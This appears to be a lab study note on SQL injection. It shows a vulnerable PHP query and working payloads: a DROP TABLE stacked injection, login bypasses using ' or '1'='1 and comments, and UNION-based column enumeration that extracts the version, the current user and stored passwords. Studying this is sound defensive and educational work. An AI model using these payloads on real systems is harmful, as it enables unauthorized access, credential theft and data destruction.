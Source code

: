 # 🚑 Basic injections:

An SQL injection occurs when user-input is inputted into the SQL query string without properly sanitizing or filtering the input.

Let's imagine the following code:

```php
$searchInput =  $_POST['findUser'];
$query = "select * from logins where username like '%$searchInput'";
$result = $conn->query($query);
```

The query to the database would be:

```sql
select * from logins where username like '%$searchInput'
```

So with a single quote, we could break everything:

```php
'%1'; DROP TABLE users;'
#which would turn out like this:
select * from logins where username like '%1'; DROP TABLE users;'
```

Here are the differente sql injections:

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

Let's go more in depth with the famous login bypass:

```sql
admin' or '1'='1
```

The final query should look like this:

```sql
SELECT * FROM logins WHERE username='admin' or '1'='1' AND password = 'something';
```

What happens on rhe backend is:

```sql
SELECT * FROM logins WHERE username='admin' or '1'='1' AND password = 'something';
```

We can also try the inverted command and use OR statement on the password with the `'1'='1` or `' or '1' = '1`:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

You can also use comments to bypass auth, the query looks something like this when you use comments:

```shell-session
mysql> SELECT * FROM logins WHERE username = 'admin'; # You can place anything here AND password = 'something'
```

So we can inject `admin'--` as our username. The final query will be:

```sql
SELECT * FROM logins WHERE username='admin'-- ' AND password = 'something';
```

We can also target users:

```sql
SELECT * FROM logins where (username='admin')
```

_**Login as the user with the id 5 to get the flag.**_

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

```
') OR id =5 -- -
```

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

### Union

The [Union](https://dev.mysql.com/doc/refman/8.0/en/union.html) clause is used to combine results from multiple `SELECT` statements. This means that through a `UNION` injection, we will be able to `SELECT` and dump data from all across the DBMS, from multiple tables and databases.

```shell-session
mysql> SELECT * FROM ports UNION SELECT * FROM ships;

+----------+-----------+
| code     | city      |
+----------+-----------+
| CN SHA   | Shanghai  |
| SG SIN   | Singapore |
| Morrison | New York  |
| ZZ-21    | Shenzhen  |
+----------+-----------+
```

A `UNION` statement can only operate on `SELECT` statements with an equal number of columns.

If we wanted to use union statement on different numbers of columns:

```sql
SELECT * from products where product_id = '1' UNION SELECT username, password from passwords-- '
```

The above query would return `username` and `password` entries from the `passwords` table, assuming the `products` table has two columns.

To define how many columns a table has, we can use ORDER BY. We start with `order by 1`, then we will do `order by 2` and then `order by 3` until we reach a number that returns an error. If we failed at `order by 4`, this means the table has three columns

```sql
' order by 5-- -
```

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2).png" alt=""><figcaption><p>So there are 4 columns</p></figcaption></figure>

We could also use the union command:

```sql
cn' UNION select 1,2,3,4-- -
```

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

and now that we got the number of columns we can start injecting:

```sql
cn' UNION select 1,@@version,3,4-- -
```

`We cannot place our injection at the beginning, or its output will not be printed.`

This is the benefit of using numbers as our junk data, as it makes it easy to track which columns are printed, so we know at which column to place our query. To test that we can get actual data from the database 'rather than just numbers,' we can use the `@@version` SQL query as a test and place it in the second column instead of the number 2:

```sql
cn' UNION select 1,@@version,3,4-- -
```

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

_**Use a Union injection to get the result of 'user()'**_

<figure><img src="../../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

```
'UNION SELECT 1,user(),3,4-- -
```

<figure><img src="../../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>
